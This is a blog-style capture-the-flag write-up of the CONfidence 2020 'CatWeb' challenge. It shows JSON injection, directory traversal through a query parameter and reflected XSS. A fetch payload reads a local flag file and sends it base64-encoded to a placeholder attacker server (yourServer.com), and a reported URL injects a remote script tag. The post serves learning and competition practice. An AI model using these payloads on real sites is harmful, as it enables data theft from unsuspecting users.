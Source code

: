 ```yaml
---
title: "CONfidence 2020: CatWeb"
date: 2020-04-22T00:46:19-06:00
draft: false
author: "Jamvie"
feature_image: https://images.pexels.com/photos/1643456/pexels-photo-1643456.jpeg?auto=compress&cs=tinysrgb&dpr=2&h=650&w=940
---
```


I participated in CONfidence CTF 2020 teasers in March of this year. I was focusing mainly on this problem, and it really helped me broaden my skills in JSON-related attacks! I have never seen many JSON injections before this, so this was welcome practise. 
<!--more-->

Let's Begin!
----
The link to the webpage is: ```http://catweb.zajebistyc.tf/```

We have a basic webpage with photos of cute cats filtered by their color. The drop down menu will give us black, red, grey and white cats. At the bottom is a report button, which will take whatever input we get, send it to some server, and respond to us that our report has been...well. Reported. 

![HomePage](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CatWeb_HomePage.png)


Checking out the response content as I was clicking about the page showed me the requests for the "kind" (colour) of cats I chose based on the drop down menu. The request was just a small JSON string stipulating what kind I asked for, and I guess the server takes that input and returns whatever. 

```
curl "http://catweb.zajebistyc.tf/cats?kind=grey"
```

That got me thinking, can I ask for cats of a kind not in the drop down menu? 
Editing the request to change the kind from a colour to just absolute garbage...

```
curl "http://catweb.zajebistyc.tf/?kind=djfa"
```
![brokenrequest](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/NotFound.png)

Aha! Our text got echoed back to us in the response. There isn't any input validation in the JSON request! This must be a way in. 

To test how far I could go with it, I decided to hide an XSS in the JSON, seeing as how the URL we are taken to after any sort of response also has the JSON text in it. 

I typed this in as the URL:

```
http://catweb.zajebistyc.tf/?","status":"ok","content":["\"<img src=deadbeef onerror=alert(document.title)> </img>],"ignore":"
```

If there was a JSON vulnerability here, then going to this website would load up an alert with the title of the webpage ("my cats"). What would happen is it would attempt to load an image from the source called "deadbeef", and when it can't find the source, it would load as an error. If the image loaded as an error, pop up an alert with the name of the webpage. 

![XSS](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/XSSJsonInCatWeb.png)


:) Great! There is definitely JSON injection in play here. Let's see what we can do with it! 

Using curl to delve deeper into the webpage, I tried to make it list directories with the command: 

```
curl "http://catweb.zajebistyc.tf/cats?kind=.."
```

![templates](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CatWebTemplates.png)

I traversed through the directories, but in the templates subfolder...

![flagLocn](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CatWebFlagLocn.png)

Aha! The ```flag.txt``` file is in there. Now we just need to somehow read it from the browser. The fact that I was able to find the local files like this means something: the path of templates looks alot like

```
file:///app/templates/flag.txt
```

```flag.txt``` is locally saved - everything in ```templates``` is locally saved. We can use this to our advantage: create an XSS attack on the ``file://`` path.

Since an XSS endpoint was found using the JSON vulnerabilities in the URL, and there exists a report function, this is all a pretty classic XSS attack from here:

Craft our payload script to fetch the flag.txt from ```file://```. Here's mine called (xss.js):

```javascript
url='http://yourServer.com/6060?'
fetch('file:///app/templates/flag.txt').then(resp=>resp.text()).then(flag=>fetch(url+(btoa(flag) || 'Nothing')));
```


Report this url with our payload in it:

```
file:///app/templates/index.html?", "status": "ok", "content":["\u0022><script src=http://yourServer.com:6060/xss.js></script>"],"ignore":"
```

Now we wait for our server to retrieve the flag for us once someone checks out our reported URL :)

```flag:p4{can_i_haz_a_piece_of_flag_pliz?}```


This was a cool challenge to do that really helped me stretch my XSS skills and teach me how to be thorough when scoping out webpages for possible XSS attacks. I quite enjoyed this challenge! Thank you to [P4](https://p4.team/) for hosting the CONfidence 2020 teaser :) 

References
----
feature image credit: [Peng Louis](https://www.pexels.com/@peng-louis-587527) on Pexels